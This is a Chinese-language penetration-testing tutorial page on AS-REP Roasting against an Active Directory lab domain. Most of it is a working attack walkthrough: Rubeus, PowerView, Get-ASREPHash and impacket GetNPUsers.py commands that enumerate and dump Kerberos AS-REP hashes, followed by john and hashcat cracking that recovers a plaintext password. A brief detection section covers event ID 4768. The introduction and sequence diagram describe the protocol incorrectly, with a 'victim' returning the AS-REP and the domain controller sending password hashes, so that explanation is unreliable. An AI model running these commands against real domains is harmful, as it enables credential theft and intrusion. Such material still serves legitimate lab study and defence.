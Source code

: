 # AS-REP Roasting攻击

> Windows 2008 R2

## 简介

AS-REP Roasting是一种针对使用Kerberos协议进行身份验证的攻击，其目的是利用Kerberos漏洞以获取活动目录中的用户凭据。

Kerberos是一种网络身份验证协议，用于在计算机网络上安全地验证用户和服务。Kerberos协议使用票据（ticket）来验证用户身份。在活动目录中，用户凭据包括密码散列和KERBEROS的AES密钥。

AS-REP Roasting利用Kerberos协议中的一个漏洞，即在某些情况下，允许攻击者通过发送具有无效身份验证请求（AS-REQ）来收集AS-REP响应。AS-REP响应包含用户的加密AES密钥，**攻击者可以将其用于破解密码散列并获得用户凭据**。

```mermaid
sequenceDiagram
    participant Attacker
    participant DomainController
    participant Victim

    Attacker ->> DomainController: 发送无效身份验证请求（AS-REQ）
    DomainController -->> Attacker: 发送身份验证错误（KRB5KDC_ERR_PREAUTH_REQUIRED）
    Attacker ->> Victim: 发送AS-REQ请求，请求不需要预身份验证
    Victim -->> Attacker: 发送AS-REP响应，包含用户加密的AES密钥
    Attacker ->> DomainController: 使用加密的AES密钥尝试破解密码散列
    DomainController -->> Attacker: 发送密码散列

```



## 环境搭建

域用户设置了选项"**Do not require Kerberos preauthentication**"，**通常情况下，该选项默认不会开启。**

![image-20220701171152441](../../.gitbook/assets/image-20220701171152441.png)

![image-20220701172115379](../../.gitbook/assets/image-20220701172115379.png)



## 漏洞利用

### rubeus

使用rubeus.exe获得Hash

```css
Rubeus.exe asreproast
```

![image-20220701172146854](../../.gitbook/assets/image-20220701172146854.png)



### powershell

使用的`powerview.ps1`查找域中设置了 "不需要kerberos预身份验证" 的用户

```powershell
 Import-Module .\powerview.ps1
 Get-DomainUser -PreauthNotRequired
```

![image-20220701172830454](../../.gitbook/assets/image-20220701172830454.png)

使用`ASREPRoast.ps1`获取AS-REP返回的Hash

```powershell
PS C:\> Get-ASREPHash -UserName hacker -Domain sectest.com
$krb5asrep$hacker@sectest.com:d0a157853391aab1e8e01bc686fb163a$809336bab609b5471e00dfd086ec87a1b2dcaa329c36753a0da5ecba
7c360e3aefb21c07a363139c9f0aeff96da09345137fc6b2a4320cec2be50a7a1f91548881c933f968657018c29fab4f7c370d48ad1bf4484164dfc
0435b1a6ca8313280d1b8c854da0e97191a35b94e2065020e2712b9ae9ed11b4be4c8d0d213c8dd8e462c1c2192b9e3904bc1ccea93e956cbcb442d
72d9e1fbacc81a261482e08a601c82b7927bc15e8ec2fd36725bc4d7a50a2a7519000896a7205ab87890584076a14c818f185ff206f2fb957324ec3
d591e2e623d1a14d5732fced962db9d5fcfae397c7bcb4ead5e5608
PS C:\>
PS C:\>
PS C:\> Get-ASREPHash -UserName administrator -Domain sectest.com
$krb5asrep$administrator@sectest.com:ba6badff514dd32e51a8375d59d3b4fd$4b19d25ec755b55a6c350740d6b7e91b3d980ae234ba5721b
d81177e0f5ad065a248dae0b9a2ca7968d8dd6238c1771c1376445296e8fc3c10ec1323b23bc76438b8ffff191e2da0961e47216caa5e3b3372d9d7
71bdf037c62c10ddbc9ed87cc4097539c14b74eea80b35ae0817953da40c0e8bf8fd12543db6753b0a4b0c007aa04090f7d0c88625ba4d200bba287
b98d6048544c35717d0571d6e121aebf613f240fbbd053d11f97aae1bf28473431addc504ce97d291a633f09a301d5e97c21220d2261de0beab1339
2512134d77ac292bf3af0adc3d864db4b9c8f0460754aab44c45863aa95e7a
PS C:\>
```



### impacket

爆破用户

```sh
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# python3 GetNPUsers.py sectest.com/ -usersfile /tmp/user.txt  
```

![image-20220701175412792](../../.gitbook/assets/image-20220701175412792.png)

知道具体用户，获取票据信息

```sh
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# python3 GetNPUsers.py sectest/administrator -no-pass -dc-ip 192.168.32.144 -request                                                                                                                                        
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for administrator
$krb5asrep$23$administrator@SECTEST:7a5b7de0d5af4a66f5ee83a3eb48b726$e6c5ea6fb79ea8154a25f7ba4b0f12c265f7c2f10ef2591cba1ccdb1b42bc38f39dde177ac87da7dc9c66c90966afd12a7a131c817ce5f84b57312f5b846b5bc86a516a982ca438a6a4914d5c9220cbded7a5cf05ddf374f5cf3b3e735046e510bd688db79fde9ed15601e52d9991a21fc758b634df9932ace8839da67fbf36bbb670158005beac9a1b65806964f104accf99065edf74c80c113ced5fa13fb11a54e1eaf33f4ffbad561891d66917b4b728838b01e3469aed2c54f6c99c0aca879f24f92f8ccb703b69cd5bd9f6507a89be384297881d037550066a88a38d9bd7ad71b1006dc
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# python3 GetNPUsers.py sectest/hacker -no-pass -dc-ip 192.168.32.144 -request                                                                                                                                                  
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for hacker
$krb5asrep$23$hacker@SECTEST:a7b9a372f2e3a0fa7568e860797ae62b$bd120f6279317280bf9e3b949cbac5b30bb3734926a9a13edd3dee5028b718541a938963f5279bac3f92c64eeb88c7255b3f2dac60106ac14abfe0bb4f43dbe7ec4e91a8ed7703049620e6e79bdb23451cf631694c27a9e88ee8433c0bda6bd1da67064d90d576e8bcecdef3fecb1ba14ac3c3acc4a35ca76bd34e4f7fee122378ed77f49b6ec452183f5b4462e03e565da49bd62227065c87b20293c5f2156a143e3b4a2902c8da7193131b7fa061426004dec87d6ddb0bc3fced9b3fd135aa0dbde8acdb76b45dd54e0f41db10792775cd0a6d98d35fbed53022fb6439aff534406491213b

```



## 哈希破解

### john

```sh
┌──(root💀kali)-[/tmp]
└─# john --wordlist=password.txt hash.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
abcABC123        ($krb5asrep$23$hacker@SECTEST.COM)
1g 0:00:00:00 DONE (2022-07-01 05:58) 10.00g/s 701890p/s 701890c/s 701890C/s punkey..pinkk
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

### hashcat

```sh
┌──(root💀kali)-[/tmp]
└─# hashcat -a 0 -m 18200 hash.txt password.txt --force  
```

![image-20220701175918090](../../.gitbook/assets/image-20220701175918090.png)

## 日志分析

Windows事件ID 4768是Kerberos身份验证服务的事件ID，用于记录Kerberos身份验证请求的事件。这个事件ID通常不会单独表示攻击，但如果您注意到异常的数量或出现了未授权的Kerberos身份验证请求，则可能表明发生了攻击。

![image-20230227143142069](../../.gitbook/assets/image-20230227143142069.png)

![image-20230301092727819](../../.gitbook/assets/image-20230301092727819.png)